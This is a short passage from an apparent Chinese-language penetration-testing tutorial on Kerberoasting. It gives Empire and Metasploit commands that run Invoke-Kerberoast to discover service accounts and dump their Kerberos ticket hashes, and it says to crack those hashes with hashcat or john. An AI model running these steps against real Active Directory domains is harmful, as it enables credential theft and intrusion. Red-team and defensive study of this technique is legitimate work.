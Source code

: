 #### invoke\_kerberoast 模块

该模块可以进行 `SPN` 发现、转储 `TGS`、获取 `HASH` 一键化

```bash
usemodule powershell_credentials_invoke_kerberoast
execute
```

[![](assets/1708919803-62a8ed82183bda55a4cb45fd5a9cb27a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142244-2084bffc-ce26-1.png)

获取到之后，使用`hahscat`或者`john`破解即可

### 使用 Metasploit

```bash
load powershell 
powershell_import Invoke-Kerberoast.ps1
powershell_execute Invoke-Kerberoast
```
